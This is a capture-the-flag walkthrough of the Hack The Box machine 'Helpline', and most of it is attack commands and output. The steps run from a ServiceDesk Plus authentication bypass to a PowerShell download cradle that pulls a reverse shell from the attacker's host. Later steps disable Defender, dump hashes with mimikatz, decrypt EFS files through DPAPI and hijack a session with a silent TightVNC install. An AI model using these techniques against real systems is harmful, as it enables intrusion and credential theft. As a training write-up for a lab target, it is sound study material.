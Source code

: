 **Skills Required**
● Enumeration
● Powershell
**Skills Learned**
● XXE
● Applocker enumeration
● Event log enumeration

Looport 5985 (winrm) Remote management users
port 445 (smb)
port 8080 (http)

There is an SMB service running, and I use crackmapexec to gather additional information about the target machine

``` 
❯ crackmapexec smb 10.10.10.132
SMB         10.10.10.132    445    HELPLINE         [*] Windows 10.0 Build 17763 x64 (name:HELPLINE) (domain:HELPLINE) (signing:False) (SMBv1:False)
```

Now I'm going to use smbmap to enumerate all the shared drives across the entire domain.

```
smbmap -H 10.10.10.132 -u 'null'
[!] Authentication error on 10.10.10.132
```

the access is denied, so I need to enumerate more things, like the port 8080, which hosts a website.

On this website, I discovered a login panel for an application called "ManageEngine ServiceDesk plus", 
I was able to log in as guest. Now, I'm using searchsploit to look for exploits related to this application.

I found a vulnerability in this application that allows me to enumerate users just by using the path  "/servlet/AJaxServlet?action=checkUser&search=guest"
If the response is "true", it means the user exists. So I'll create a bash script to brute force this to find the valid users

``` bash
cat /usr/share/seclist/Usernames/top-usernames-shortlist.txt | while read username; do echo -e "\n[*] Trying Username -> $username\n"; curl -s "http://10.10.10.132:8080/servlet/AjaxServlet?action=checkUser&search=$username" -H "Cookie: JSESSIONID=4534545; JSE4355; _rem=erwe_; mes2343"; done | grep "true" -B 2
```

There are two users: "administrator" and "guest"

Upon searching for vulnerabilities using searchsploit, I found an "Authentication Bypass" vulnerability.
"An attacker can use the following URL to login to the mobile client" -> http://10.10.10.132:8080/mc/
"Use the discovered username in both the username and password fields" In my case "administrator" "administrator"
"Once logged in, remove /mc from the URL and you will be presented with the full application and the authorities of the user you just logged in"

Effectively,  I'm now logged in as the administrator.
There is also a method to achieve Remote code execution and gain access to the victim's system using "Invoke-PowerShellTcp.ps1" from Nishang

```
#On my machine
> echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1')" | iconv -t utf-16le | base64 -w 0; echo
> rlwrap nc -nlvp 1234

#On the website
Go to -> Admin -> custom triggers -> Add new action -> Action Name: RCE -> Match the following criteria -> Sender - Is not  - "something"
	  -> Perform action -> run script -> cmd /c powershell -nop -enc base64
Go to -> Request -> new incident
 ```

I have gained access to the system as "nt authority\system", but I can't read the flags (search for the flag -> cmd /c dir /r /s user.txt)
It appears that the file is encrypted. Confirming this, I executed the command "cipher /c user.txt/root.txt" which confirmed the encryption and indicated that only the users 'tolu' and 'administrator' cad decrypt it.

To proceed, I'm going to use mimikatz to obtain the NTLM hashes from the system https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919
Before uploading mimikatz to the victim machine, I need to disable windows defender, I can do this because I have elevated privileges on the victim machine as 'nt authority\system'

``` powershell
-> cd \ProgramData
-> Set-MpPreference -DisableRealtimeMonitoring $true
-> iwr -uri http://10.10.14.3/mimikatz.exe -OutFile mimikatz.exe "exit"
	certutil.exe -f -urlcache -split http://10.10.14.3/mimikatz.exe mimikatz.exe "exit"
-> .\mimikatz.exe log hash.txt "exit"
-> .\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
zachary:0987654321
```

I now have the hashes, and I'll crack them using the web-based tool CrackStation.
I successfully retrieved password "0987654321" associated with the user "zachary"
Now i'm going to check if this credentials are valid
``` bash
crackmapexec smb 10.10.10.132 -u 'zachary' -p '0987654321'
```

The credentials are correct, but the user doesn't have the respective privilege "remote management users" that allows me to connect via WinRm.
When looking at the privilege for that user, it has the "Event Log Readers" privilege. I can achieve the same functionality with the current user I have. To do this, I use the script  [Get-WinEventData.ps1](https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1 "Get-WinEventData.ps1")


``` powershell
#on my machine
wget https://raw.githubusercontent.com/RamblingCookieMonster/PowerShell/master/Get-WinEventData.ps1
sudo python -m http.server 80

#on victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Get-WinEventData.ps1')
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select e_CommandLine | ft -AutoSize

USER:tolu /P !zaq1234567890pl!99
```

Checkin these logs, I obtained the password for the user "tolu" 
Now with these credentials, I can decrypt de user's flag. https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files

``` powershell
#on the victim machine
cipher /c user.txt
# copy the certificate thumbprint
# Use mimikatz
-> ./mimikatz.exe "crypto::system /file:C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29 /export" "exit"
# this create a .der file, now I download it to my machine
# use base64 to copy the file to my machine
-> [convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))
#on my machine
echo "base64" | base64 -d > 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29.der 

#on the victim machine
dir C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1...... -Force
.\mimikatz "dpapi::masterkey /in:C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011\2f452fc5-c6d2-4706-a4f7-1cd6b891c017 /password:!zaq1234567890pl!99" "exit"
#save the sha1 hash (masterkey)
sha1: 8ece5985210c26ecf3dd9c53a38fc58478100ccb

-> .\mimikatz "dpapi::capi /in:C:\Users\tolu\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-3107372852-1132949149-763516304-1011\307da0c2172e73b4af3e45a97ef0755b_86f90bf3-9d4c-47b0-bc79-380521b14c85 /masterkey:8ece5985210c26ecf3dd9c53a38fc58478100ccb" "exit"
#this export a .pvk file
#now transfer it to my machine
dpapi_exchange_capi_0_e65e6804-f9cd-4a35-b3c9-c3a72a162e4d.keyx.rsa.pvk
[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))
``` 

Now I use openssl to creat the public key on my machine
``` bash
-> openssl x509 -inform DER -outform PEM -in B53C6DE283C00203587A03DD3D0BF66E16969A55.der -out public.pem
-> openssl rsa -inform PVK -outform PEM -in raw_exchange_capi_0_ffb75517-bc6c-4a40-8f8b-e2c555e30e34.pvk -out private.pem
-> openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
#whit this i have the .pfx file, I need to transfer this file to the victim machine
-> sudo python -m http.server 80
# on victim machine
-> iwr -uri http://10.10.14.3/cert.pfx -OutFile cert.pfx
-> certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot
-> type \Users\tolu\Desktop\user.txt
0d522fa8d6d2671636ac7e73216808d3
```

Whit this entire process, I can decrypt the user.txt file successfully.
Now, I need to decrypt the root.txt file, but I lack the Administrator password.
While enumerating the sistem,  the user "leo" has a  "admin-pass.xml" file,  but it's encrypter. I'll need to follow a similar process as before to decrypt it, but I don't have the password for this user.

I noticed that the user "leo" has a console open when I ran the command "tasklist /v".  To exploit this and attempt to migrate or impersonate this user, I will use the software "tightvnc"

``` bash
#download tightvnc  https://www.tightvnc.com/download.php
sudo python -m http.server 80

#on victim machine
-> iwr -uri http://10.10.14.3/tightvnc.msi
-> cmd /c msiexec /i tightvnc.msi /quiet /norestart ADDLOCAL="Server,Viewer" VIEWER_ASSOCIATE_VNC_EXTENSION=1 SERVER_REGISTER_AS_SERVICE=1 SERVER_ADD_FIREWALL_EXCEPTION=1 VIEWER_ADD_FIREWALL_EXCEPTION=1 SERVER_ALLOW_SAS=1 SET_USEVNCAUTHENTICATION=1 VALUE_OF_USEVNCAUTHENTICATION=1 SET_PASSWORD=1 VALUE_OF_PASSWORD=PASSWORD SET_USECONTROLAUTHENTICATION=1 VALUE_OF_USECONTROLAUTHENTICATION=1 SET_CONTROLPASSWORD=1 VALUE_OF_CONTROLPASSWORD=PASSWORD

#on my machine
vncviewer 10.10.10.132

```

I'm currently within the victim machine, logged in as the user 'leo'. Now, I have the ability to access the 'admin-pass.xml' file. This file contains a securely encrypted string that is easy to decrypt.

``` powershell
-> powershell 
-> $s = cat .\admin-pass.xml
-> $ss = ConvertTo-SecureString $s
-> $cred = New-Object System.Management.Automation.PSCredential('administrator', $ss)
-> $cred.getNetworkCredential() | fl
UserName       : administrator
Password       : mb@letmein@SERVER#acc
SecurePassword : System.Security.SecureString
Domain         :

```

Now I have the credentials for the user Administrator and can read the root.txt
``` powershell
runas /user:Administrator cmd.exe
cd \Users\Administrator\Desktop
type root.txt
d814211fc0538e50a008afd817f75a2c 
```

And in this way I solve this machine Helpline from Hack The Box

